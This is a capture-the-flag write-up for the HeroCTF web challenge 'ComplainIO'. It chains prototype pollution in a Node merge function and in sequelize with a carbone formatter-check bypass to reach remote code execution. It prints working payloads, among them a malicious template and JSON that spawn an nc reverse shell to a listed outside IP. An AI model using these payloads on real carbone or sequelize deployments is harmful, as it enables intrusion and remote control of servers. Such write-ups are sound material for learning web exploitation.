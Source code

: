 # ComplainIO

### Category

Web

### Description

As a French person, we love to complain, so I've created a platform to automatically create complaint templates - we can't stop progress!

> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**<br>
Author : **Worty**

### Write Up

This challenge involves a global prototype pollution to gain remote code execution inside the carbone library. (https://github.com/carboneio/carbone/commit/04f9feb24bfca23567706392f9ad2c53bbe4134e)

The prototype pollution can be triggered when a POST request is made to `/api/create_template` due to this function :

```js
const FORBIDDEN_MODIFIED = ["id","username","password"];
const all_fields = FORBIDDEN_MODIFIED.concat(["firstname","lastname"]);

const merge = (obj1, obj2) => {
    for (let key of Object.keys(obj2)) {
      const val = obj2[key];
      if(FORBIDDEN_MODIFIED.includes(key)) {
        continue
      }
      if (typeof obj1[key] !== "undefined" && typeof val === "object") {
        obj1[key] = merge(obj1[key], val);
      } else {
        obj1[key] = val;
      }
    }
  
    return obj1;
};
```

Example of a request to pollute a random attribute (not related to the challenge) :

```
POST /api/create_template HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJpYXQiOjE3MjQzNTcyNzd9.0PLLAhb3OEZmqpIi6cAYNa-jN1UXRWK785t3qXh5LQc
X-Requested-With: XMLHttpRequest
Content-Length: 175
Origin: http://localhost:3000
Connection: keep-alive
Referer: http://localhost:3000/complain
Cookie: flarum_remember=JlDQQq89nrmSLiddUNWFhKS62QhHXHa67huQlSE5; spip_admin=%40admin%40localhost
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
  "firstname":"John",
  "lastname":"",
  "uuid":"1e200be4-009a-4726-9b2b-409e56578746",
  "id":1,
  "__proto__":{
    "polluted":1
  }
}
```

I will not demonstrate the analysis I made in the carbone library, but this library is really well done, very few user inputs are reflected in the template to be evaluated. The carbone library allows developers to call function like this :

```
{d.age:add(2)}
```

In the rendered template, the only user inputs reflected is "add", but we are limited, in fact, if we try to call an undefined function inside carbone library, the renderer will crash and thrown an error. This check can be bypass with a prototype pollution, in fact, in the carbone library code, they are checking that the function exists using the following code :

```js
// lib/builder.js
if (existingFormatters[_functionStr] === undefined) {
  var _alternativeFnName = helper.findClosest(_functionStr, existingFormatters);
  throw Error('Formatter "'+_functionStr+'" does not exist. Do you mean "'+_alternativeFnName+'"?');
}
if ( (existingFormatters[_functionStr].canInjectXML === true && onlyFormatterWhichInjectXML === true)
  || (existingFormatters[_functionStr].canInjectXML !== true && onlyFormatterWhichInjectXML !== true)) {
  _lineOfCodes.push(varName +' = formatters.' + _functionStr + '.call(' + contextName + ', ' + varName + _argumentStr + ');\n');
}
```

In fact, if we try to render : `{d.age:__proto__(2)}`, this code will be bypassed (but the renderer will crash because `__proto__` is not a function obviously).

At this point of the challenge, we observe that we must control the template in order to trigger the code execution, and this can be done because the uploaded profile picture are in the same SQL table than the base templates. Moreover, no check are performed on uploaded files, so a user can upload everything he wants, including carbone templates.

Let's say we have a code execution, the malicious template that will trigger a reverse shell is the following :

```
{d:__proto__;x=Object;w=a=x.constructor.call``;w.type="pipe";w.readable=1;w.writable=1;a.file="/bin/sh";a.args=["/bin/sh","-c","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f"];a.stdio=[w,w];ff=Function`process.binding\\x28\\x22spawn_sync\\x22\\x29.spawn\\x28a\\x29.output`;ff.call``//()}
```

Using the prototype pollution we see before, we have to pollute as follows :

```
{
  ...,
  "__proto__":{
    "__proto__;x=Object;w=a=x.constructor.call``;w.type=\"pipe\";w.readable=1;w.writable=1;a.file=\"/bin/sh\";a.args=[\"/bin/sh\",\"-c\",\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 51.77.222.226 4444 >/tmp/f\"];a.stdio=[w,w];ff=Function`process.binding\\x28\\x22spawn_sync\\x22\\x29.spawn\\x28a\\x29.output`;ff.call``//":1,
    "xmlParts":[]
  }
}
```

You can notice the additional `xmlParts` in the json payload, this is mandatory else carbone will crash before executing the template.

There is a last error, in fact, the application is using sequelize to perform SQL queries, but sequelize is fully vulnerable to prototype pollution, and will consider anything in the prototype as a column name. Because a SQL query is performed before rendering the template, if we pollute like this, the platform will be broken.

A way to bypass this behaviour of sequelize is to attack it with also a prototype pollution :

```
{
  ...,
  "__proto__":{
    "raw":1,
    "connection":{
      "uuid":"test"
    },
    "fields":[]
  }
}
```

With this, any SQL query performed by sequelize will not select any column (this broke the platform but this allows us to reach the carbone renderer to perform remote code execution.)

So, the exploit chain is :
  - Upload a malicious profile picture that contains our malicious carbone template
  - Recover the uuid of the uploaded file (we can because it's our profile picture)
  - Perform a prototype pollution to corrupt sequelize
  - Perform a second prototype pollution to pollute the global object with our payload
  - Ask carbone to render our file
  - Gain code execution

You will find this in the `solve.py` file.

### Flag

HERO{m0r3_p0llut10n_pl34s3_456144e3cc5ed95803a2f81baaf3c4bb}
